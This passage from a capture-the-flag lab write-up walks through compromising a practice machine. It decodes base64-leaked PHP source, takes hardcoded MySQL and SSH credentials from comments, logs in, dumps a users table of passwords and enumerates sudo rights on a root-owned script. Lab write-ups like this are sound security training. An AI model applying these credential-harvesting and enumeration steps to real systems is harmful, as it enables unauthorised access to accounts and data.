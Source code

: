   * We can decode the base64 text in response to get source code for 'forms.php'; we can do the same for other pages as well

  * From the source code for 'with.php', we get MySQL creds 'root:idkpass' (same used in other pages as well)

  * Furthermore, in source code of 'acc.php', a comment is included which gives us the creds "cyber:super#secure&password!"

  * Also, source code of 'admin.php' contains a comment saying that creds for the 'admin' are saved in a file; we can search for this later

* Using the creds found from the source code, we can give SSH login a try:

  ```sh
  ssh cyber@battery.thm
  # this works

  cat flag1.txt
  # base flag

  # we can test the mysql creds from earlier
  mysql -u root -p
  # enter 'idkpass' as password

  # we are able to login
  show databases;

  # enumerate the database
  use details;

  show tables;

  # we have a users table
  select * from users;
  # this gives us some creds like "cyber:cyber", "admin@bank.a:I_know_my_password", "admin:pass" and "check:check"
  
  # nothing else is there so leaving mysql
  quit

  ls -la
  # we have a Python script here
  # owned by root
  # we do not have view permission

  less run.py

  sudo -l
  # this shows we can run the following as root
  # (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py

  sudo /usr/bin/python3 /home/cyber/run.py
  # this prints a message
  # Hey Cyber I have tested all the main components of our web server but something unusal happened from my end!

  ls -la run.py
  ```
